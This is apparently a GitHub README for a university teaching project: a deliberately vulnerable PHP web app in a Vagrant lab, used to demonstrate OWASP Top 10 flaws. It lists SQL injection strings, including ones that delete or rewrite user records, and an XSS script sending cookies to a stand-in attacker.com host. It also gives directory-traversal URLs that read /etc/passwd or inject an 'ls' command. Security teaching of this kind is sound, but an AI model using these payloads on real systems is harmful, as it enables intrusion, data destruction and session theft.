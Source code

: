 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
> vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd zcu_webapp_security_demo
> vagrant up
```
* for the first time it will take about 15 minutes till vagrant is ready (depending on your internet connection)
* in browser go to http://192.168.33.10/zcu/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
' OR username='alfa
```
* or even worst
```sql
'; UPDATE user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
<script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>
```

### Broken Session Management
* application with URL rewriting
* no logout and session timeout

### Sensitive Data Exposure
* to monitor HTTP traffic
```bash
root> tcpdump -A -vvv -i vboxnet1 host 192.168.33.10
```

### Cross-Site Request Forgery
* try this: http://192.168.33.10/zcu/index.php?action=create&notice=pokus


### Security Misconfiguration
* Directory listing is not disabled on your server
  * try this: http://192.168.33.10/zcu/list
  * selinux (setenforce 0, setenforce 1)
* Directory traversal
  * for this reason: http://192.168.33.10/zcu/list/fancy_script.php
  * but can be misused: http://192.168.33.10/zcu/list/get_file.php?file=../../../../etc/passwd
  * or: http://192.168.33.10/zcu/list/get_file.php?file=get_file.php
  * or even worst: http://192.168.33.10/zcu/list/get_file.php?file=/proc/1/cmdline;%20ls%20-al%20/


## Where to go next
* [OWASP Top Ten 2013 Project](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2013_Project)
* [OWASP Secure Coding Practices](https://www.owasp.org/images/0/08/OWASP_SCP_Quick_Reference_Guide_v2.pdf)


____


### Vagrant troubleshooting (Fedora 23)

#### 1) Failed to mount folders in Linux guest.
```bash
Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not
available. Please verify that the guest additions are properly installed in the guest and  can
work properly. The command attempted was:
mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
...
/sbin/mount.vboxsf: mounting failed with the error: No such device
```
  - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
   - shortly: vagrant ssh, sudo systemctl enable vboxadd, service vboxadd start, vagrant reload, vagrant provision

#### 2) Building the main Guest Additions module fail --> sync folder not mounted
```bash
...
Installing Virtualbox Guest Additions 5.0.10 - guest version is unknown
Verifying archive integrity... All good.
Uncompressing VirtualBox 5.0.10 Guest Additions for Linux............
VirtualBox Guest Additions installer
Removing installed version 5.0.10 of VirtualBox Guest Additions...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Copying additional installer modules ...
Installing additional modules ...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Building the VirtualBox Guest Additions kernel modules
The headers for the current running kernel were not found. If the following
module compilation fails then this could be the reason.
The missing package can be probably installed with
yum install kernel-devel-3.10.0-229.14.1.el7.x86_64

Building the main Guest Additions module[FAILED]
(Look at /var/log/vboxadd-install.log to find out what went wrong)
...
```
   - shortly: vagrant ssh, sudo yum update, Ctrl+D, vagrant reload
